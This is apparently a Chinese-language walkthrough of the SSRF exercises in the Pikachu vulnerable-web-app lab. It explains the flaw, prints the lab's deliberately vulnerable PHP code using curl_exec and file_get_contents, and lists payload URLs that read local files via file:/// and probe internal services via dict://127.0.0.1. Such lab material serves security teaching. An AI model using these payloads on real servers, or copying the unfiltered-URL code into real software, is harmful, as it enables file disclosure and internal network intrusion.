其形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能,但又没有对目标地址做严格过滤与限制,导致攻击者可以传入任意的地址来让后端服务器对其发起请求,并返回对该目标地址请求的数据

数据流:攻击者----->服务器---->目标地址

根据后台使用的函数的不同,对应的影响和利用方法又有不一样

PHP 中下面函数的使用不当会导致 SSRF:
- file_get_contents()
- fsockopen()
- curl_exec()

如果一定要通过后台服务器远程去对用户指定("或者预埋在前端的请求")的地址进行资源请求,则请做好目标地址的过滤.

### SSRF(curl)

**服务器端核心代码**
```php
if(isset($_GET['url']) && $_GET['url'] != null){
    //接收前端URL没问题,但是要做好过滤,如果不做过滤,就会导致SSRF
    $URL = $_GET['url'];
    $CH = curl_init($URL);
    curl_setopt($CH, CURLOPT_HEADER, FALSE);
    curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
    $RES = curl_exec($CH);
    curl_close($CH) ;
//ssrf的问是:前端传进来的url被后台使用curl_exec()进行了请求,然后将请求的结果又返回给了前端.
//除了http/https外,curl还支持一些其他的协议curl --version 可以查看其支持的协议,telnet
//curl支持很多协议,有FTP, FTPS, HTTP, HTTPS, GOPHER, TELNET, DICT, FILE以及LDAP
    echo $RES;
}
```

扩展阅读: [PHP中使用CURL实现GET和POST请求](https://www.cnblogs.com/CHEUNGKAMING/p/5717429.html)

**漏洞利用**

观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php`

看起来就像远程包含漏洞一样,尝试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=http://www.baidu.com`


SSRF 利用方式有很多,比较常见的是服务端请求其他网站,一种是探测内网敏感信息,还有就是攻击 web 应用,主要是 strust2 远程命令执行,还有一些中间件的 getshell.

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=file:///c:/1.txt`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_curl.php?url=dict://127.0.0.1:80/info`


### SSRF(file_get_content)

**服务器端核心代码**
```php
if(isset($_GET['file']) && $_GET['file'] !=null){
    $filename = $_GET['file'];
    $str = file_get_contents($filename);
    echo $str;
}
```

- **file_get_contents() 函数**

    file() 函数把整个文件读入一个数组中.和 file() 一样,不同的是 file_get_contents() 把文件读入一个字符串.

    file_get_contents() 函数是用于将文件的内容读入到一个字符串中的首选方法.如果操作系统支持,还会使用内存映射技术来增强性能.

**漏洞利用**

观察 url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info2.php`

看上去没什么变化,试试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://www.baidu.com`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///c:/1.txt`
